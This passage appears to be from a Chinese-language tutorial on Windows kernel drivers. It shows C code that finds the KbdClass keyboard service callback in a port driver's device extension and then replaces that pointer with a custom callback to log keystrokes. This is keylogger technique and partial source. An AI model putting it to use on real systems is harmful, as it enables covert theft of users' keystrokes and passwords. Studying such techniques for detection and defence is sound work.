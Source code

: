 ```c
			PVOID tmp;
			if (!MmIsAddressValid(DeviceExt))
			{
				break;
			}
			//找到后会填写到这个全局变量中，这里检查是否已经填好了  
			//如果已经填好了就不用继续找了，可以直接退出  
			if (gkdbCallback.classDeviceObject && gkdbCallback.serviceCallback)
			{
				status = STATUS_SUCCESS;
				break;
			}
			//在端口驱动的设备扩展里，找到了类驱动设备对象，填好类驱动设备对象后继续  
			tmp = *(PVOID*)DeviceExt;
			if (tmp == pTargetDeviceObject)
			{
				gkdbCallback.classDeviceObject = pTargetDeviceObject;
				continue;
			}

			//如果在设备扩展中找到一个地址位于KbdClass这个驱动中，就可以认为，这就是我们要找的回调函数  
			if ((tmp > KbdDriverStart) && (tmp < (UCHAR*)KbdDriverStart + KbdDriverSize) &&
				(MmIsAddressValid(tmp)))
			{
				//将这个回调函数记录下来  
				DbgPrint("KEYBOARDCLASSSERVICECALLBACK address: %p", tmp);
				gkdbCallback.serviceCallback = (KEYBOARDCLASSSERVICECALLBACK)tmp;
				gkdbCallback.AddrServiceCallback = (PVOID *)DeviceExt;
			}
		}
		if (status == STATUS_SUCCESS)
		{
			break;
		}
		//换成下一个设备，继续遍历  
		pTargetDeviceObject = pTargetDeviceObject->NextDevice;
	}
	return status;
}
```

看网上很多代码都是在找到`KeyboardClassServiceCallback`回到函数的地址之后采用inline hook的方式进行键盘记录，其实没必要那么复杂，直接替换掉驱动扩展里面的函数指针为我们自己的函数，就可以实现键盘记录了：

```c
	if (gkdbCallback.serviceCallback && gkdbCallback.AddrServiceCallback) {
	   // 如果找到了回调函数，就修改掉回调函数
		DbgPrint("Replace the keyboardClassCallback to mycallback!\n");
	    *gkdbCallback.AddrServiceCallback = mycallback;

	}
```
